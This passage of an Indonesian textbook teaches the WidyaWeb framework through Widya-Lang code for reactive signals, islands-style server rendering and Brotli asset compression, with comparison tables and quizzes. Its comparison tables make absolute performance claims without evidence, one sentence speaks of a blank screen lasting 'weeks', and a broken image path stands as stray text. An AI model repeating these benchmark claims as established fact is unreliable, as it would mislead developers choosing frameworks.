Berikut implementasi manajemen state reaktif pada komponen pembaca berita interaktif menggunakan WidyaWeb pada Widya-Lang:

```widya
// Modul Manajemen State Reaktif Berbasis Signals WidyaWeb
modul komponen_berita_reaktif {
    impor ekosistem::widyaweb::{
        WidyaWeb, Sinyal, Komputasi, Efek,
        KomponenReaktif, InstruksiPatchDOM
    };

    struktur StateArtikelBerita {
        id_artikel: Bulat,
        judul: Teks,
        total_suka: Sinyal<Bulat>,
        ukuran_huruf_pt: Sinyal<Bulat>,
        status_langganan: Sinyal<Boolean>,
    }

    implementasi StateArtikelBerita {
        fungsi buat(id: Bulat, judul: Teks) -> Diri {
            kembalikan StateArtikelBerita {
                id_artikel: id,
                judul: judul,
                total_suka: Sinyal::buat(124),
                ukuran_huruf_pt: Sinyal::buat(16), // Ukuran font default 16pt
                status_langganan: Sinyal::buat(salah),
            };
        }

        fungsi perbesar_huruf(&mut diri) {
            biar ukuran_kini = diri.ukuran_huruf_pt.baca();
            jika ukuran_kini < 24 {
                diri.ukuran_huruf_pt.atur(ukuran_kini + 2);
                cetak(">>> [REAKTIF] Ukuran huruf diperbesar menjadi: " + teks(ukuran_kini + 2) + "pt");
            }
        }

        fungsi tambah_suka(&mut diri) {
            biar suka_kini = diri.total_suka.baca();
            diri.total_suka.atur(suka_kini + 1);
            cetak(">>> [REAKTIF] Total suka artikel diperbarui langsung: " + teks(suka_kini + 1));
        }
    }

    fungsi demonstrasi_graf_reaktif() -> Hasil<Boolean, Teks> {
        cetak("==================================================================");
        cetak(">>> [SIGNALS] Menguji Reaktivitas Berbutir Halus Komponen Berita...");

        biar mut artikel = StateArtikelBerita::buat(101, "Kedaulatan Digital Indonesia");

        // Definisikan Nilai Komputasi Turunan (Computed Value)
        biar label_popularitas = Komputasi::buat(|| -> Teks {
            biar jumlah = artikel.total_suka.baca();
            jika jumlah > 500 {
                kembalikan "SANGAT POPULER (Trending)";
            } selain_itu jika jumlah > 100 {
                kembalikan "POPULER";
            } selain_itu {
                kembalikan "BIASA";
            }
        });

        // Daftarkan Efek Reaktif Penambal DOM (DOM Patch Effect)
        Efek::buat(|| {
            biar likes = artikel.total_suka.baca();
            biar label = label_popularitas.baca();
            cetak("  ★ [DOM-PATCH-DISPATCH] Mengirim instruksi penambalan targeted:");
            cetak("    - Target Elemen ID: 'counter-likes' -> Nilai Baru: " + teks(likes));
            cetak("    - Target Elemen ID: 'badge-status'  -> Label Baru: " + label);
        });

        // Simulasikan Interaksi Pembaca Mengklik Tombol 'Suka'
        cetak(">>> [USER-ACTION] Pembaca mengklik tombol jempol suka...");
        artikel.tambah_suka(); // Memicu efek reaktif seketika tanpa VDOM Diffing

        // Simulasikan Pembaca Mengatur Aksesibilitas Ukuran Font
        cetak(">>> [USER-ACTION] Pembaca mengklik tombol perbesar teks 'A+'...");
        artikel.perbesar_huruf();

        cetak("==================================================================");
        kembalikan Ok(benar);
    }
}
```

### 6.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan paradigma manajemen state pada framework front end:

| Karakteristik Reaktivitas | Virtual DOM (React / Vue lama) | Dirty Checking (Angular awal) | Fine-Grained Signals (WidyaWeb) |
| :--- | :--- | :--- | :--- |
| **Mekanisme Pelacakan State** | Re-render Pohon Komponen Penuh | Siklus Digest Loop Berkala | **Graf Ketergantungan Sinyal Otomatis** |
| **Kompleksitas Pembaruan DOM**| $O(N)$ Diffing Pohon Komponen | $O(N)$ Pengecekan Seluruh Scope| **$O(1)$ Pembaruan Node Spesifik** |
| **Konsumsi Memori Klien** | Tinggi (Duplikasi Pohon Virtual)| Sedang | **Ultra Hemat (Pointer Langsung)** |
| **Over-Rendering Issue** | Masalah Klasik (Perlu `useMemo`) | Ya | **Nol Mutlak (Hanya node yang berubah)** |
| **Kinerja di Perangkat Seluler** | Sering Lag saat DOM Besar | Lambat | **Super Mulus (Zero Overhead)** |

### 6.4 Latihan Soal Esai

1. Terangkan kelemahan performa dan komputasi dari pendekatan *Virtual DOM Diffing* pada halaman portal berita yang memuat ribuan elemen artikel, widget komentar, dan live ticker!
2. Bagaimana cara kerja konsep *Fine-Grained Reactivity* pada WidyaWeb dalam melacak relasi antara *Signal*, *Computed Value*, dan *Effect* secara otomatis saat kode program dijalankan?
3. Uraikan mengapa pembaruan DOM berorde $O(1)$ berbasis sinyal mampu memberikan pengalaman pengguna yang jauh lebih mulus dan menghemat konsumsi baterai ponsel pintar masyarakat Indonesia!

### 6.5 Soal Pilihan Ganda

1. Paradigma reaktivitas modern yang digunakan oleh WidyaWeb untuk menggantikan Virtual DOM adalah...
   A. Fine-Grained Reactivity berbasis Signals
   B. Manual DOM Refresh
   C. Polling Timer
   D. Full Page Reload

2. Kompleksitas komputasi untuk memperbarui satu elemen teks DOM yang terikat pada sebuah sinyal reaktif di WidyaWeb adalah...
   A. $O(1)$ instan langsung ke simpul yang bersangkutan
   B. $O(N)$ pemindaian seluruh halaman
   C. $O(N^2)$
   D. $O(\log N)$

3. Komponen primitif reaktivitas yang menyimpan nilai state dan secara otomatis memberitahukan perubahannya kepada para pelanggan dinamakan...
   A. Sinyal (Signal)
   B. Cookie
   C. LocalStorage
   D. Socket

4. Nilai yang secara otomatis dihitung ulang hanya jika sinyal sumber dependensinya mengalami perubahan dinamakan...
   A. Nilai Komputasi (Computed / Derived Value)
   B. Nilai Statis
   C. Nilai Acak
   D. Nilai Sampah

5. Masalah klasik pada framework berbasis Virtual DOM di mana komponen anak ikut dirender ulang secara sia-sia meskipun datanya tidak berubah disebut...
   A. Over-Rendering
   B. Buffer Overflow
   C. Deadlock
   D. Packet Drop

6. Prosedur yang dieksekusi secara otomatis sebagai efek samping ketika nilai sinyal di dalamnya mengalami mutasi adalah...
   A. Efek Reaktif (Reactive Effect / Watcher)
   B. Kompilator JIT
   C. Garbage Collector
   D. Task Scheduler

7. Keuntungan graf ketergantungan sinyal dianalisis pada fase kompilasi bahasa Widya-Lang adalah...
   A. Menghilangkan beban pelacakan dinamis saat runtime sehingga kinerja aplikasi semakin cepat
   B. Mematikan fungsi klik tombol
   C. Menghapus kode CSS
   D. Mengurangi resolusi foto berita

8. Atribut pengikat peristiwa interaktif pada sintaksis komponen WidyaWeb untuk menangani peristiwa klik mouse adalah...
   A. `w-click`
   B. `onclick_native`
   C. `v-bind`
   D. `ng-click`

9. Mengapa pemakaian Signals sangat menghemat konsumsi baterai pada perangkat ponsel cerdas?
   A. Karena meniadakan komputasi rekursif pembandingan pohon VDOM di CPU setiap kali terjadi perubahan state kecil
   B. Karena meredupkan layar ponsel otomatis
   C. Karena mematikan koneksi 4G
   D. Karena mengubah warna aplikasi menjadi hitam

10. Penerapan Fine-Grained Signals pada portal berita NusantaraNews memastikan bahwa...
    A. Pembaruan angka live-counter pembaca atau skor pertandingan bola dapat diperbarui seketika tanpa mengganggu kenyamanan membaca teks artikel
    B. Berita lama otomatis terhapus
    C. Seluruh gambar berita diubah menjadi teks
    D. Pengguna harus menginstal aplikasi tambahan

---

## Bab 7: Mesin Rendering Server (SSR) & Arsitektur Islands

### 7.1 Paradigma Islands Architecture: 0 KB JavaScript Default

Dalam perancangan portal berita skala nasional yang melayani puluhan juta rakyat Indonesia dengan beragam spesifikasi perangkat—mulai dari komputer desktop hingga ponsel cerdas terjangkau berdaya komputasi rendah di daerah pelosok—arsitektur *Single Page Application* (SPA) murni berbasis JavaScript sering kali menjadi bumerang:
- SPA mengharuskan peramban mengunduh berkas bundel JavaScript raksasa (sering kali 2–5 MB) sebelum teks berita pertama kali dapat dibaca.
- Pada jaringan seluler yang lambat, pembaca disuguhi layar putih kosong (*blank white screen*) selama berminggu-minggu interaksi akumulatif.
- Perayap mesin pencari (*Search Engine Crawlers*) dan bot media sosial kerap gagal mengindeks konten berita secara akurat.

WidyaWeb memelopori standar rendering modern melalui **Mesin Hybrid Rendering & Islands Architecture** native (`pure_ssr.rs`):
- **Dokumen HTML Statis 100% Cepat (0 KB Client JS Default)**: Seluruh tata letak halaman, artikel berita, navigasi, dan footer dirender menjadi HTML murni di sisi peladen (*Server-Side Rendering*) tanpa menyertakan kode JavaScript klien sama sekali.
- **Pulau Interaktif Terisolasi (*Islands of Interactivity*)**: Kode interaktivitas berbasis JavaScript atau WebAssembly **hanya dikirimkan untuk komponen-komponen kecil yang benar-benar membutuhkan interaksi pengguna langsung** (seperti: pemilih ukuran font, kolom pencarian cerdas autocomplete, atau tombol jempol suka artikel).
- **Streaming SSR via HTTP Chunked Transfer**: Peladen mengalirkan potongan header `<head>` dan tata letak utama ke peramban secara seketika, sementara bagian konten yang membutuhkan kueri basis data dialirkan berikutnya (*streaming response*) menggunakan penanda *Suspense*.

```mermaid
flowchart TD
    subgraph HalamanBeritaNusantara["Halaman Web Portal Berita NusantaraNews (Islands Architecture)"]
        H["Header Berita (HTML Statis Murni - 0 KB JS)"]
        Nav["Navigasi Kanal (HTML Statis Murni - 0 KB JS)"]
        Art["Isi Teks Artikel Berita & Foto (HTML Statis Murni - 0 KB JS)"]
        
        Island1["Pulau 1: Komponen Font Resizer<br>[Hidrasi Mandiri ~2 KB JS]"]
        Island2["Pulau 2: Live Comment & Poll<br>[Hidrasi WebSockets ~4 KB JS]"]
        
        Foot["Footer & Hak Cipta (HTML Statis Murni - 0 KB JS)"]
    end
    Klien["Peramban Klien"] -->|Kueri Permintaan GET /berita/101| Server["Peladen WidyaWeb SSR (pure_ssr.rs)"]
    Server -->|1. Alirkan HTML Bersih Seketika (FCP < 300 ms)| Klien
    Server -.->|2. Hidrasi Terisolasi Hanya untuk Pulau 1 & 2| Island1 & Island2
```

Empat mode rendering terpadu pada WidyaWeb:
1. `ModeRender::StreamingSSR`: Merender halaman secara asinkron di peladen dan mengalirkannya secara bertahap via HTTP chunked encoding.
2. `ModeRender::StaticSiteGen`: Mengompilasi halaman statis sekali saat build time untuk konten yang jarang berubah.
3. `ModeRender::IncrementalStatic` (ISR): Menyimpan halaman di tembolok dan menyegarkannya di latar belakang berbasis kebijakan *Stale-While-Revalidate* (SWR).
4. `ModeRender::IslandsOnly`: Memadukan konten statis bebas JS dengan pulau-pulau interaktif mandiri.

### 7.2 Implementasi Kode Program Utuh

Berikut implementasi Server-Side Rendering dan pendaftaran komponen pulau interaktif pada WidyaWeb menggunakan Widya-Lang:

```widya
// Modul Server-Side Rendering dan Islands Architecture WidyaWeb
modul mesin_rendering_ssr {
    impor ekosistem::widyaweb::{
        WidyaWeb, MesinRenderSSR, ModeRender, KonfigurasiRenderHalaman,
        PulauInteraktif, ResponHttp, StatusHttp, KontenTipe
    };

    fungsi render_halaman_artikel_portal(id_artikel: Bulat) -> Hasil<ResponHttp, Teks> {
        cetak("==================================================================");
        cetak(">>> [SSR-ISLANDS] Merender Halaman Artikel Berita ID: " + teks(id_artikel));

        biar mut mesin_ssr = MesinRenderSSR::buat();

        // 1. Definisikan Konfigurasi Mode Rendering (Islands + Streaming)
        biar konfigurasi = KonfigurasiRenderHalaman {
            mode_render: ModeRender::IslandsOnly,
            revalidasi_detik: Ada(60), // ISR: Revalidasi setiap 60 detik (SWR)
            tags_revalidasi: ["artikel_berita", "kanal_utama"],
            suspense_enabled: benar,
        };

        // 2. Daftarkan Pulau Interaktif (Interactive Island) untuk Widget Reaksi Pembaca
        biar pulau_reaksi = PulauInteraktif {
            id_pulau: "island-reaksi-101",
            nama_komponen: "WidgetReaksiPembaca",
            state_props_json: "{\"total_suka\": 850, \"id_artikel\": 101}",
        };
        mesin_ssr.daftarkan_pulau(pulau_reaksi);

        // 3. Bangun Struktur HTML Semantik Lengkap (SEO Otoritatif)
        biar html_output = "
            <!DOCTYPE html>
            <html lang='id'>
            <head>
                <meta charset='UTF-8'>
                <meta name='viewport' content='width=device-width, initial-scale=1.0'>
                <title>Kedaulatan Digital Nusantara - NusantaraNews</title>
                <meta name='description' content='Indonesia melangkah mandiri dengan ekosistem perangkat lunak berdaulat penuh.'>
                <!-- 0 KB Bundel JS Monolitik! Hanya script pemantik pulau yang dimuat -->
                <script type='module' src='/_widya/islands-bootstrap.js' defer></script>
            </head>
            <body>
                <header class='site-header'>
                    <h1>NusantaraNews</h1>
                    <nav><a href='/'>Beranda</a> | <a href='/politik'>Politik</a> | <a href='/teknologi'>Teknologi</a></nav>
                </header>

                <main class='content-container'>
                    <article>
                        <h2>Indonesia Mantapkan Kemandirian Infrastruktur Digital</h2>
                        <p class='metadata'>Diterbitkan: 20 Oktober 2026 | Penulis: Redaksi Nasional</p>
                        <div class='body-text'>
                            <p>Langkah bersejarah diambil dalam memperkuat ketahanan komputasi nasional...</p>
                        </div>
                    </article>

                    <!-- PULAU INTERAKTIF 1: Widget Suka (Hanya bagian ini yang terhidrasi) -->
                    <div id='island-reaksi-101' data-widya-island='WidgetReaksiPembaca' class='island-container'>
                        <button class='btn-like'>👍 Suka (<span id='like-count'>850</span>)</button>
                    </div>
                </main>

                <footer>
                    <p>&copy; 2026 NusantaraNews. Mengabdi untuk Kedaulatan Informasi Bangsa.</p>
                </footer>
            </body>
            </html>
        ";

        cetak(">>> [SSR] Dokumen HTML berhasil disintesis. Ukuran: " + teks(html_output.panjang()) + " byte.");
        cetak(">>> [ISLANDS] Hanya 1 pulau terisolasi yang membutuhkan hidrasi klien.");
        cetak("==================================================================");

        kembalikan Ok(ResponHttp::buat(StatusHttp::Ok)
            .tambah_header("Content-Type", "text/html; charset=utf-8")
            .tambah_header("X-Render-Mode", "WidyaWeb-Islands")
            .isi_badan(html_output));
    }
}
```

### 7.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan paradigma rendering antarmuka pada platform web:

| Parameter Metrik Web | Client-Side SPA (React SPA) | Full SSR Monolitik (Next.js) | Islands Architecture (WidyaWeb) |
| :--- | :--- | :--- | :--- |
| **Beban JavaScript Klien** | Sangat Berat (1.5 – 4 MB JS) | Berat (Ratusan KB JS Hidrasi)| **Hampir Nol (0 – 15 KB JS Total)** |
| **First Contentful Paint (FCP)**| Sangat Buruk (1.500–3.500 ms) | Sangat Cepat (300–600 ms) | **Ultra Cepat (< 250 milidetik)** |
| **Time to Interactive (TTI)** | Lambat (Menunggu parse JS) | Lambat (Hidrasi seluruh DOM) | **Seketika (Hanya pulau kecil)** |
| **Keterbacaan Robot SEO** | Rawan Gagal / Terpotong | Sempurna | **Sempurna Mutlak (HTML Murni)** |
| **Ketahanan Jaringan Lemah** | Sangat Buruk (Layar Putih) | Baik untuk teks | **Sangat Unggul & Tetap Terbaca** |

### 7.4 Latihan Soal Esai

1. Terangkan perbedaan filosofis mendasar antara arsitektur *Single Page Application* (SPA) konvensional dengan *Islands Architecture* dalam mendistribusikan kode JavaScript ke peramban klien!
2. Mengapa pendekatan *0 KB JavaScript Default* pada WidyaWeb menjadi solusi teknologi yang sangat berkeadilan sosial bagi masyarakat Indonesia yang mengakses portal berita di wilayah pelosok kepulauan?
3. Jelaskan cara kerja teknik *Stale-While-Revalidate* (SWR) pada Incremental Static Regeneration (ISR) dalam menjaga agar pembaca selalu disajikan halaman berita dari tembolok instan sementara penyegaran artikel berlangsung di latar belakang!

### 7.5 Soal Pilihan Ganda

1. Prinsip utama dari Islands Architecture yang dipelopori pada WidyaWeb adalah...
   A. Menghasilkan halaman HTML statis bersih (0 KB JavaScript default) dan hanya menghidrasi komponen pulau interaktif terisolasi
   B. Menghapus seluruh tata letak CSS
   C. Mengunci seluruh browser pengguna
   D. Mematikan sambungan internet

2. Metrik kinerja web yang mengukur waktu sejak pengguna mulai membuka halaman hingga konten teks atau gambar pertama kali tampak di layar adalah...
   A. First Contentful Paint (FCP)
   B. Cumulative Layout Shift (CLS)
   C. Disk Throughput
   D. Ping Latency

3. Metrik yang mengukur kapan halaman web menjadi sepenuhnya responsif dan siap menerima interaksi pengguna (seperti klik tombol) dinamakan...
   A. Time to Interactive (TTI)
   B. First Byte Time
   C. Memory Leak
   D. Idle Clock

4. Mode rendering yang menyajikan salinan halaman instan dari tembolok sembari menyegarkan data artikel terbaru di latar belakang adalah...
   A. Incremental Static Regeneration (ISR) dengan Stale-While-Revalidate
   B. Client-Only SPA
   C. Direct Memory Access
   D. Hard Reset

5. Fitur HTTP yang memungkinkan peladen mengalirkan potongan-potongan dokumen HTML secara bertahap sebelum seluruh halaman selesai diproses di server adalah...
   A. HTTP Chunked Transfer Streaming
   B. Half-Duplex Stream
   C. Serial File Dump
   D. Zero Buffer

6. Komponen pembungkus pada HTML yang menandai bagian konten dinamis yang masih menunggu hasil kueri basis data dinamakan konsep...
   A. Suspense Boundary
   B. Error Page
   C. Breakpoint
   D. Iframe

7. Mengapa perayap mesin pencari (SEO Search Engine Crawlers) sangat menyukai halaman yang dirender menggunakan Server-Side Rendering (SSR)?
   A. Karena seluruh konten artikel berita, judul, dan metadata sudah berupa teks HTML lengkap saat pertama kali diunduh tanpa perlu mengeksekusi JavaScript
   B. Karena mesin pencari tidak menyukai gambar
   C. Karena berkas HTML berukuran nol byte
   D. Karena server tidak memiliki alamat IP

8. Apa yang terjadi pada bagian artikel berita statis di luar pulau interaktif saat halaman dibuka di peramban pembaca?
   A. Ditampilkan sebagai teks HTML semantik biasa tanpa ada beban hidrasi JavaScript sama sekali
   B. Terhapus secara otomatis
   C. Diubah menjadi file PDF
   D. Memerlukan login kata sandi

9. Manfaat utama teknik Selective Hydration pada pulau interaktif adalah...
   A. Komponen pulau yang berada di luar layar (off-screen) hanya dihidrasi ketika pengguna menggulir layar mendekatinya
   B. Mematikan fungsi mouse
   C. Menghapus memori RAM
   D. Mengubah bahasa antarmuka

10. Penerapan Islands Architecture pada portal berita nasional NusantaraNews membuktikan bahwa...
    A. Pengalaman membaca berita dapat berlangsung instan di bawah 300 milidetik bahkan pada perangkat ponsel berharga terjangkau dengan koneksi seluler terbatas
    B. Berita online tidak membutuhkan foto
    C. Semua pengguna harus menggunakan komputer super
    D. Website modern tidak boleh menggunakan warna

---

## Bab 8: Pengelolaan Aset Statis, Kompresi Brotli & Bundler Internal

### 8.1 Optimalisasi Jalur Pengiriman: Dari Berkas Mentah Menuju Jaringan Efisien

Dalam operasional harian sebuah portal berita nasional berskala besar, lebih dari 70% volume lalu lintas jaringan (*bandwidth consumption*) dihabiskan untuk melayani pengiriman aset statis—seperti lembar gaya CSS, berkas JavaScript pulau interaktif, ikon SVG, tipografi font web (`.woff2`), serta foto liputan berita (`.webp` dan `.avif`).

Pengelolaan aset statis yang buruk akan mengakibatkan:
- Pemborosan bandwidth data center peladen hingga terabyte per hari.
- Kecepatan pemuatan lambat akibat ketiadaan kompresi biner mutakhir.
- Masalah inkonsistensi tembolok (*Cache Invalidation Bugs*) di mana pembaca melihat tampilan rusak saat situs diperbarui karena peramban masih menyimpan berkas CSS versi lama.

WidyaWeb menghadirkan **Subsistem Pengelolaan Aset Statis & Bundler Internal Nol-Konfigurasi (*Native Static Asset Manager & Compression Engine*)** (`pure_assets.rs`):
1. **Penetapan Sidik Jari Konten (*Content Fingerprinting / Asset Hashing*)**: Setiap berkas aset statis yang dikompilasi secara otomatis disematkan hash konten unik 8-karakter pada nama berkasnya (misal: `gaya.a7f9b2c1.css`).
2. **Kebijakan Tembolok Abadi (*Immutable Caching*)**: Memungkinkan peladen mengirimkan header HTTP `Cache-Control: public, max-age=31536000, immutable`. Peramban klien tidak akan pernah meminta ulang berkas tersebut selama satu tahun penuh kecuali jika konten berkas berubah dan nama berkasnya berganti secara otomatis.
3. **Kompresi Biner Multi-Algoritma (Brotli & Zstandard)**:
   - *Brotli (br)*: Standar industri web modern yang menghasilkan kompresi teks CSS/HTML/JS 20–30% lebih padat dibandingkan algoritma Gzip kuno.
   - *Zstandard (zstd)*: Kompresi throughput tinggi dengan kecepatan dekompresi gigabyte per detik.
4. **ETag Kriptografis Ringkas**: Mendukung negosiasi bersyarat `If-None-Match` yang mengembalikan kode status `304 Not Modified` dalam fraksi mikrodetik tanpa mengirimkan ulang muatan data.



### 8.2 Implementasi Kode Program Utuh

Berikut implementasi peladen berkas statis ber-sidik jari dan negosiasi kompresi Brotli otomatis pada WidyaWeb menggunakan Widya-Lang:

```widya
// Modul Pengelolaan Aset Statis dan Kompresi Brotli WidyaWeb
modul manajemen_aset_statis {
    impor ekosistem::widyaweb::{
        WidyaWeb, ManajerAsetStatis, PermintaanHttp, ResponHttp,
        FormatKompresi, StatusHttp, HeaderHttp
    };

    fungsi inisialisasi_peladen_aset() -> Hasil<Boolean, Teks> {
        cetak("==================================================================");
        cetak(">>> [ASET-STATIS] Mengompilasi dan Mengompresi Aset Portal Berita...");

        // 1. Instansiasi Manajer Aset Statis Native
        biar mut manajer_aset = ManajerAsetStatis::buat();
        manajer_aset.tetapkan_direktori_sumber("/var/www/nusantaranews/public");
        manajer_aset.tetapkan_awalan_url("/_aset/");
        manajer_aset.aktifkan_penomoran_hash_sidik_jari(benar);

        // 2. Lakukan Pra-Kompresi (Pre-Compression) Statis untuk Seluruh Aset CSS/JS
        cetak(">>> [KOMPRESI-BROTLI] Memulai kompresi Brotli tingkat 11 untuk file teks...");
        biar hasil_kompresi = manajer_aset.jalankan_pra_kompresi([FormatKompresi::Brotli, FormatKompresi::Gzip])?;
        cetak(">>> [KOMPRESI] Berhasil memadatkan " + teks(hasil_kompresi.jumlah_berkas) + " berkas.");
        cetak(">>> [PENGHEMATAN] Rata-rata rasio kompresi teks: " + teks(hasil_kompresi.persen_penghematan) + "%");

        // 3. Pasang Handler Penanganan Permintaan Aset Statis dengan Negosiasi Encoding
        manajer_aset.tangani_permintaan(|req: &PermintaanHttp| -> ResponHttp {
            biar jalur_aset = req.jalur();
            biar accept_encoding = req.ambil_header("Accept-Encoding").buka_atau("");

            // Cek Tembolok Klien via ETag
            biar etag_klien = req.ambil_header("If-None-Match");
            biar etag_lokal = manajer_aset.ambil_etag(jalur_aset);

            jika etag_klien.ada() && etag_lokal.ada() && etag_klien.buka() == etag_lokal.buka() {
                // Klien sudah punya versi terbaru di tembolok browser
                kembalikan ResponHttp::buat(StatusHttp::NotModified);
            }

            // Negosiasi Algoritma Kompresi Terbaik
            jika accept_encoding.berisi("br") && manajer_aset.memiliki_varian_brotli(jalur_aset) {
                biar byte_brotli = manajer_aset.ambil_konten_brotli(jalur_aset).buka();
                kembalikan ResponHttp::buat(StatusHttp::Ok)
                    .tambah_header("Content-Encoding", "br")
                    .tambah_header("Content-Type", manajer_aset.ambil_mime_type(jalur_aset))
                    .tambah_header("Cache-Control", "public, max-age=31536000, immutable")
                    .tambah_header("ETag", etag_lokal.buka())
                    .isi_badan_biner(byte_brotli);
            } selain_itu jika accept_encoding.berisi("gzip") && manajer_aset.memiliki_varian_gzip(jalur_aset) {
                biar byte_gzip = manajer_aset.ambil_konten_gzip(jalur_aset).buka();
                kembalikan ResponHttp::buat(StatusHttp::Ok)
                    .tambah_header("Content-Encoding", "gzip")
                    .tambah_header("Content-Type", manajer_aset.ambil_mime_type(jalur_aset))
                    .tambah_header("Cache-Control", "public, max-age=31536000, immutable")
                    .tambah_header("ETag", etag_lokal.buka())
                    .isi_badan_biner(byte_gzip);
            } selain_itu {
                // Format mentah tanpa kompresi
                biar byte_mentah = manajer_aset.ambil_konten_mentah(jalur_aset).buka();
                kembalikan ResponHttp::buat(StatusHttp::Ok)
                    .tambah_header("Content-Type", manajer_aset.ambil_mime_type(jalur_aset))
                    .tambah_header("Cache-Control", "public, max-age=86400")
                    .isi_badan_biner(byte_mentah);
            }
        });

        cetak(">>> [ASET-STATIS] Jalur /_aset/ siap melayani aset berkinerja tinggi.");
        cetak("==================================================================");

        kembalikan Ok(benar);
    }
}
```

### 8.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan algoritma kompresi data web pada WidyaWeb:

| Algoritma Kompresi | Rasio Kompresi Teks (CSS/JS) | Kecepatan Kompresi Server | Kecepatan Dekompresi Klien | Dukungan Peramban Global |
| :--- | :--- | :--- | :--- | :--- |
| **Gzip (DEFLATE - RFC 1952)** | 60% – 70% Penghematan | Cepat (Standar) | Sangat Cepat | 100% Seluruh Peramban |
| **Brotli (br - RFC 7932)** | **75% – 85% Penghematan (Padat)**| Lambat saat build / Cepat pra-kompresi| **Sangat Cepat & Efisien CPU**| **> 98% Peramban Modern** |
| **Zstandard (zstd - RFC 8878)**| 72% – 80% Penghematan | **Super Cepat di Peladen** | **Super Cepat (> 1.5 GB/s)** | Mulai diadopsi Chromium/Firefox |
| **Tanpa Kompresi (Mentah)** | 0% (Boros Bandwidth) | Instan | Instan | 100% |

### 8.4 Latihan Soal Esai

1. Terangkan konsep *Content Fingerprinting* (penyematan hash konten pada nama berkas aset) dan bagaimana teknik ini memungkinkan penerapan header `Cache-Control: immutable` tanpa risiko pengguna melihat tampilan rusak saat rilis versi baru!
2. Mengapa algoritma kompresi Brotli mampu menghasilkan ukuran berkas teks web (HTML, CSS, JavaScript) yang lebih padat hingga 20% dibandingkan algoritma Gzip tradisional?
3. Uraikan alur negosiasi konten bersyarat menggunakan header `If-None-Match` dan `ETag`! Mengapa kode status `304 Not Modified` sangat menghemat penggunaan kuota internet pembaca portal berita?

### 8.5 Soal Pilihan Ganda

1. Algoritma kompresi web modern berstandar terbuka yang menghasilkan rasio kompresi teks paling padat untuk berkas CSS dan JavaScript adalah...
   A. Brotli (br)
   B. MP3
   C. MPEG-4
   D. JPEG Lossy

2. Header HTTP yang digunakan oleh peramban klien untuk mengumumkan algoritma kompresi apa saja yang didukungnya adalah...
   A. `Accept-Encoding: gzip, deflate, br`
   B. `User-Agent`
   C. `Host`
   D. `Connection`

3. Header HTTP yang dikembalikan oleh peladen untuk memberi tahu peramban mengenai format kompresi yang digunakan pada muatan respons adalah...
   A. `Content-Encoding: br`
   B. `Content-Language`
   C. `X-Powered-By`
   D. `Set-Cookie`

4. Direktif pada header `Cache-Control` yang menyatakan bahwa isi berkas aset dijamin tidak akan pernah berubah selamanya sehingga peramban tidak perlu memvalidasi ulang adalah...
   A. `immutable`
   B. `no-cache`
   C. `no-store`
   D. `must-revalidate`

5. Kode status HTTP yang dikembalikan oleh peladen ketika isi berkas di tembolok peramban masih identik dengan berkas di peladen (berdasarkan ETag) adalah...
   A. `304 Not Modified`
   B. `200 OK`
   C. `404 Not Found`
   D. `500 Server Error`

6. Nilai pengenal unik kriptografis yang merepresentasikan versi isi dari sebuah berkas aset dinamakan...
   A. ETag (Entity Tag)
   B. IP Tag
   C. Port Tag
   D. Root Token

7. Teknik mengompresi seluruh berkas aset statis terlebih dahulu pada saat proses build (sebelum peladen dijalankan) dinamakan...
   A. Pra-Kompresi Statis (Pre-Compression)
   B. Kompresi On-The-Fly Lambat
   C. Runtime Defragmentation
   D. Memory Overclocking

8. Keuntungan utama dari teknik Pra-Kompresi Statis adalah...
   A. Peladen dapat langsung mengalirkan berkas terkompresi tanpa membebani siklus CPU untuk kompresi ulang di setiap permintaan klien
   B. Menghapus kebutuhan media penyimpanan harddisk
   C. Mengubah berkas CSS menjadi gambar
   D. Mematikan sambungan internet

9. Format berkas font web modern terkompresi yang paling efisien dan dianjurkan untuk tipografi portal berita adalah...
   A. WOFF2 (Web Open Font Format 2)
   B. TTF Mentah
   C. EOT Kuno
   D. BMP Font

10. Penerapan strategi aset statis ber-sidik jari dan kompresi Brotli pada portal berita NusantaraNews menghasilkan...
    A. Penghematan biaya lalu lintas data (bandwidth) hingga 80% dan kecepatan pemuatan halaman berita yang instan bagi pembaca
    B. Berita otomatis diterjemahkan ke bahasa asing
    C. Komputer server otomatis berhenti berputar
    D. Menghapus kebutuhan editor bahasa

---

# BAB 9: KOMPONEN REAKTIF DEKLARATIF & KOMPOSISI TEMPLAT

Bab ini membahas arsitektur komponen reaktif deklaratif pada WidyaWeb untuk membangun antarmuka web modern portal berita NusantaraNews. Anda akan mempelajari siklus hidup komponen, paradigma *view as a function of state*, komposisi modular, dan pengikatan dua arah (*two-way binding*) tanpa abstraksi Virtual DOM yang berat.

---

## 9.1 Konsep Paradigma Deklaratif & Siklus Hidup Komponen

